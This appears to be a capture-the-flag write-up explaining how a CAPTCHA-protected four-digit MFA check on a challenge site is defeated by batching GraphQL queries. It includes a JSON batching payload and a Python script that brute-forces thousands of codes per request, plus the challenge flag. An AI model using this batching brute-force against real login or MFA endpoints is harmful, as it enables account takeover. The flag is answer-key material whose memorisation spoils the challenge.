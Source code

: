 # Look, if you had one shot

## Description

> Or one opportunity. To guess one mfa code on the website. In one moment. Could you hack it? Or just let it slip?
>
> During a penetration test of Generally Quirky Labs' online websites, you stumbled across their company employee portal. After some recent brute force attacks, the security team got tired of watching hackers knock on the door all day long. So they implemented both MFA and Captcha codes, using some of the latest technologies. Unfortunately for them, they were not aware of one of the technologies' features...Note: DOSing the website by sending web requests is not the way.
>
> Username: `matthew@generallyql.com`
>
> Password: `yHfm34P9@v!Ge6`

## Solution

We are given the account credentials, but there is an MFA code that we need to submit. We are told that the code expires in 3 minutes, and there is a CAPTCHA code we need to submit, to prevent bruteforcing the MFA code.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.01.25 PM.png>)

Looking under the hood, we see that there is a `login_session_token` that is sent to us.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.02.33 PM.png>)

In the GraphQL query sent to `mfa_service.php`, the token is used again. It appears that as long as we use this same login token, we can submit as many attempts as we want, provided we give the correct CAPTCHA code in the GET request parameter.

![](<../../.gitbook/assets/Screenshot 2021-12-07 at 8.04.45 PM.png>)

In GraphQL, we can use **batching** to send several queries at a time. If the server processes all these queries together using the same CAPTCHA code, this would defeat the purpose of the CAPTCHA.

For instance, we can submit two queries the same HTTP request:

```json
[
    {
        "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
        "variables"{
            "code":"0000",
            "usertoken":"6a5836fa459785d8",
            "username":"matthew@generallyql.com"
        }
    },
    {
        "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
        "variables":{
            "code":"0001",
            "usertoken":"6a5836fa459785d8",
            "username":"matthew@generallyql.com"
        }
    }
]
```

Indeed, both queries were processed! We managed to try two MFA tokens, with the same CAPTCHA code.

![](<../../.gitbook/assets/image (91) (1).png>)

Since the MFA token is only 4 digits, we could simply batch thousands of queries together, drastically reducing the number of CAPTCHAs required. Here I batched 3000 queries at a time due to the request length limits.

```python
import requests, json

lower_bound = 0

while lower_bound < 10000:
    payload = []
    print("Lower bound: " + str(lower_bound))
    for i in range(lower_bound, lower_bound + 3000):
        payload.append(
            {
                "query":"query submit_mfa_token($code: String!, $usertoken: String!, $username: String!) { submit_mfa_token(code: $code, usertoken: $usertoken, username: $username) }",
                "variables":{
                    "code":f"{i}",
                    "usertoken":"ef7ec81d3dfe867f",
                    "username":"matthew@generallyql.com"
                }
            }
        )

    # print(payload)

    captcha = input("Enter captcha: ")
    r = requests.post(
        f"https://metaproblems.com/1b7b23a1d213dc1c4d24d998f11b0b35/generallyquirkylabs/mfa_service.php?captchacode={captcha}", 
        json=payload,
        headers={
            "Cookie": "GENERALLYQUIRKYLABS=75767933c8676f1ef6633a81b6fb76fd"
        }
    )
    print(r.json())

    if 'code' in r.json() and r.json()['code'] == 4:
        continue

    for result in r.json():
        if json.loads(result['data']['submit_mfa_token'])['code'] != 3:
            print(result)

    lower_bound += 3000
```

Eventually, one of our attempts will be successful.

```json
{
    'data': {
        'submit_mfa_token': '{"code":1,"message":"Login successful!","redirect":".\\/dashboard.php"}'
    }
}
```

The flag is `MetaCTF{if_brute_force_doesnt_work_use_more_brute_forceeeeeeee}`
